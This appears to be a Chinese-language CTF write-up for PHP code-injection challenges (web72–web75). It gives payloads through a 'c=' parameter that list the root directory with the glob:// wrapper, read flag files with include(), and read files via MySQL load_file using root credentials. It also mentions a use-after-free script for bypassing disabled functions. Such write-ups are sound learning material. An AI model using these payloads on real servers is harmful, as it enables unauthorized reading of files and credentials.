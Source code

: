 首先要确认flag文件的位置，这里使用的是php的**glob协议**(此协议允许以一种统一的方式访问不同类型的资源)

```
c=?><?php $a=new DirectoryIterator("glob:///*"); foreach($a as $f) { echo($f->__toString().' '); } exit(0); ?>
```

找到一个`flag0.txt`，这里要使用[uaf脚本](D:\CTF\uaf.php)来读取将脚本内容进行URL编码后作为命令执行拿到flag

提一下，这个脚本是国外的一个开源脚本，好像利用了 php 的垃圾回收机制，代码涉及到偏移地址之类的。

总结就是看不懂qaq



#### web73

用上一题的方法扫描目录发现存在`flagc.txt`（这题也可以用`c=var_export(scandir('/'));`来读）

尝试使用上一题的方法来读取，显示`strlen()`被禁用，b站wp是使用function来替代：

```
function strlen_user($s)
{
    $ret = 0;
    for($i = 0;$i < 100000;$i++){
        if($s[$i]){
            $ret=$ret +1;
        }
        else{
            break;
        }
    }
    return $ret;
}
```

但发现可以直接`include()`读取：

```
c=include('/flagc.txt');exit(0);
```



#### web74

之前的方法：

glob协议读目录，然后include包含即可：

```
c=include("/flagx.txt");exit();
```



#### web75

使用glob协议发现了flag36.txt文件，但已经无法用之前的方法读取，看wp说使用mysql的load_file读文件：

```
c=try {
  $dbh = new PDO('mysql:host=localhost;dbname=information_schema', 'root', 'root');
  foreach($dbh->query('select load_file("/flag36.txt")') as $row) {  
      echo($row[0])."|";
  }
  $dbh = null;
} catch (PDOException $e) {
  echo $e->getMessage();
  die();
};exit();
```
